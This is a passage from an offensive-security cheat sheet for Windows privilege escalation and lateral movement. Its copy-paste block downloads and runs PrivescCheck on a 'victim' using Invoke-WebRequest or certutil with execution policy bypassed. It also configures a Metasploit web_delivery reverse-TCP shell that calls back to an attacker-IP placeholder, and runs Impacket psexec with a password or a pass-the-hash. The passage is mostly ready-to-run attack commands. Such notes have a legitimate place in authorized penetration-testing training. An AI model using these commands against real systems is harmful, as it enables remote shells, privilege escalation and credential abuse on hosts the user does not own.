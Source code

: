     ```powershell
    icacls C:\path\file /grant Everyone:RX
    ```
  * For PowerShell scripts, you control execution by PowerShell policy (use `-ExecutionPolicy Bypass` to run one-off).

---


---

## Quick copy-paste cheat sheet

```bash
# Download PrivescCheck (attacker -> victim)
# Option A: PowerShell (preferred)
powershell -Command "Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1' -OutFile 'C:\Windows\Temp\PrivescCheck.ps1'"

# Option B: CertUtil
certutil -urlcache -f "https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1" C:\Windows\Temp\PrivescCheck.ps1

# Run PrivescCheck (one-liner)
powershell -ExecutionPolicy Bypass -NoProfile -Command ". 'C:\Windows\Temp\PrivescCheck.ps1'; Invoke-PrivescCheck" > C:\Windows\Temp\PrivescCheck-output.txt

# msf web_delivery (attacker)
# in msfconsole:
use exploit/multi/script/web_delivery
set SRVHOST <attacker-IP>
set SRVPORT 8080
set TARGET 0            # check show targets (PSH/VBS/etc)
set PAYLOAD windows/shell/reverse_tcp
set LHOST <attacker-IP>
set PSH-EncodedCommand false
exploit -j

# Impacket psexec (attacker)
python3 /path/to/psexec.py Administrator@<target-ip> <password>
# or pass-the-hash:
python3 /path/to/psexec.py Administrator@<target-ip> -hashes :<NTLM_HASH>
```

---
